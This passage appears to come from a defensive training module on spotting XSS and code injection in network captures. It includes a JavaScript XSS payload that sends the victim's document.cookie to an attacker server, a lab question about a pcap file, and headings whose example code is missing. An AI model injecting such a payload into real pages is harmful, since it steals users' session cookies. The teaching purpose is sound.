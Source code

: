 Such attacks are often used to steal session tokens, cookies, or other sensitive information from users. When following one of these suspicious requests, the payload may look something like this:

Example of XSS Payload
----------------------

  window.addEventListener("load", function() {
    const url = "http://192.168.0.19:5555";
    const params = "cookie=" + encodeURIComponent(document.cookie);
    const request = new XMLHttpRequest();
    request.open("GET", url + "?" + params);
    request.send();
  });
    

This script will send the victim’s cookie to the attacker’s server. Identifying the source of this malicious code can sometimes be difficult, but suppose the compromised input came from a user comment section on the site. We might notice something like the following in a comment:

Example of Malicious Code Injection in PHP
------------------------------------------

Or perhaps a command injection attempt, where an attacker tries to run a command on the server:

Preventing XSS and Code Injection
---------------------------------

To mitigate the risks associated with XSS and code injection attacks, it is important to implement preventive measures. If an attack is detected, consider taking the following actions:

*   Sanitise user input thoroughly and only allow acceptable characters or formats.
*   Avoid interpreting user input as executable code.

By properly managing user input and validating it, we can protect our web servers and prevent these types of attacks from succeeding.

### QUESTION

#### Inspect the first packet of the XSS_Simple.pcapng file, part of this module's resources, and enter the cookie value that was exfiltrated as your answer.
ANSWER:




SSL Renegotiation Attacks
=========================

**Related PCAP File(s):**  
• SSL\_renegotiation\_edited.pcapng

* * *

When analysing network traffic, you may occasionally encounter encrypted HTTPs traffic, as opposed to unencrypted HTTP traffic. It's essential to recognise signs of malicious HTTPS traffic to help with your analysis efforts.
